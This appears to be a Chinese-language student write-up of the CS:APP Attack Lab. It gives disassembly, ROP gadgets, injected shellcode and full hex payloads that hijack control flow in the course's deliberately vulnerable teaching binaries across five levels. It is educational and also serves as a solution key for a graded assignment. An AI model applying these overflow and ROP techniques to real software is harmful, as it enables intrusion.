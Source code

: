 # Attack Lab

配合[文档](http://csapp.cs.cmu.edu/3e/attacklab.pdf)食用效果更佳

## code injection

代码注入攻击

### level1

> 需要返回到touch1函数

getbuf函数中存在溢出，gdb看一下汇编

```assembly
   0x00000000004017a8 <+0>:	sub    rsp,0x28
   0x00000000004017ac <+4>:	mov    rdi,rsp
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    eax,0x1
   0x00000000004017b9 <+17>:	add    rsp,0x28
   0x00000000004017bd <+21>:	ret    
```

padding长度为0x28，填充到rip处加上touch1的地址，ret将touch1的地址弹入rip中，即可劫持执行流

于是我们payload的构造为

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

运行程序

```shell
./hex2raw < 1.txt | ./ctarget -q
```

### level2

> 需要返回到touch2函数中，并且touch2函数的第一个参数需要为cookie
>
> 我这里cookie=0x59b997fa

#### rop

后续传参需要，先找好gadaget

gadget

```assembly
0x000000000040141b : pop rdi ; ret
```

rop链的构造

```bash
padding+pop_rdi+cookie+touch2
```

payload 

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
1b 14 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
ec 17 40 00 00 00 00 00
```

这是rop链的做法

#### code injection

因为栈地址不变

可以在栈顶注入机器码，就像shellcode一样

shellcode

```assembly
movq  $0x59b997fa,%rdi
pushq $0x004017ec         
retq  
```

```assembly
48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
68 ec 17 40 00       	pushq  $0x4017ec
c3                   	retq   
```

payload

```bash
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

### level3

> 需要劫持执行流到touch3函数

和上题的思路类似，在栈上布置shellcode并劫持执行流到shellcode

观察源代码，需要我们讲cookie以字符串的形式作为参数传入touch3函数

shellcode

```bash
0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
7:	68 fa 18 40 00       	pushq  $0x4018fa
c:	c3                   	retq   
```

需要注意一点，如果将cookie布置在栈顶，下面的函数执行时会破坏getbuf函数的栈桢，导致cookie丢失，所以我选择布置在返回地址的下面(0x5561dca8)

payload

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
88 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

## ROP

rop攻击

题目提供了一些gadget在farm.c中

最好用题目提供的gadget

### level4

题目的要求和level2中的一样，不过我们需要通过构造rop链的手法去完成攻击

执行touch2(cookie)

我这里用了两个gadget

#### gadget1

```assembly
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
```

取后面的58 90 c3

```assembly
0x4019ab: 58 90 c3 pop %rax; nop; retq
```

#### gadget2

```assembly
0x4019a2 mov rdi,rax ; ret;
```

rop链:gadget1+cookie+gadget2+touch2

payload

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

### level5

需求和level3一样，不过难点在于栈地址不固定，如何把cookie的地址传入touch3中是一个问题

我的解决方案是将rsp传入rax中，用add_xy函数计算出我们放置cookie的地址，最后再传入touch3函数中

似乎只能用他给的gadget，我自己跑了一个rop链最后程序直接crush了(里面其他其他的gadget)，后来自己又写了一个

gadget

```assembly
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq 
```

```assembly
0x4019a2:
48 89 c7  :     								mov rdi rax
c3				:											ret	
```

```assembly
401a06:	48 89 e0      					mov rax rsp
401a09: c3  										ret
```

```assembly
0x401a42 <addval_487+2>:	mov    edx,eax
0x401a44 <addval_487+4>:	test   al,al
0x401a46 <addval_487+6>:	ret  
```

```assembly
0x401a69 <getval_311+1>:	mov    ecx,edx
0x401a6b <getval_311+3>:	or     bl,bl
0x401a6d <getval_311+5>:	ret
```

```assembly
0x401a27 <addval_187+2>:	mov    esi,ecx
0x401a29 <addval_187+4>:	cmp    al,al
0x401a2b <addval_187+6>:	ret   
```

```assembly
0x4019cc <getval_280+2>:	pop    rax
0x4019cd <getval_280+3>:	nop
0x4019ce <getval_280+4>:	ret   
```

rop chain

```assembly
mov rax, rsp ; ret
mov rdi, rax ; ret
pop rax; ret
0x48
mov eax,edx;
mov ecx,edx;
mov esi,ecx;
add_xy
mov rdi, rax ; ret
touch3
cookie
```

paylaod

```bash
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61 00
```

